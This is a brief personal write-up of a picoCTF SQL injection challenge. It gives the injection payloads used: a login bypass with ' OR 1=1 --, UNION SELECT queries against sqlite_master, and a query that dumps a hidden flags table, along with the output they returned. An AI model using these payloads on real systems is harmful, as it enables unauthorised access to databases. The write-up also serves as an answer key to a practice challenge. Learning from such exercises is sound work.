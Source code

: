# URL
https://play.picoctf.org/practice/challenge/504?originalEvent=75&page=1

# Challenge
There are various endpoints vulnerable to SQL Injection. You only need to exploit one of them

# Work
* Looked around the website and explored the /challenge#
* using the payload the website provided -> ' OR 1=1 -- /challenge2 returned admin so I know it works
* testing other payloads given from the website the following results were obtained: 
```
Output: [('flags',), ('users',)]
Output: [('CREATE TABLE users \n (id INTEGER PRIMARY KEY, username TEXT, password TEXT)',)]
Output: [('CREATE TABLE flags\n (id INTEGER PRIMARY KEY, flag TEXT)',)]
```
* ' UNION SELECT NULL, NULL, tbl_name FROM sqlite_master WHERE type='table' -- on /challenge2 Output: [(None, None, 'hidden_flags'), (None, None, 'inventory')]
* Dump the flag: ' UNION SELECT NULL, NULL, flag FROM hidden_flags --
* picoCTF{_}
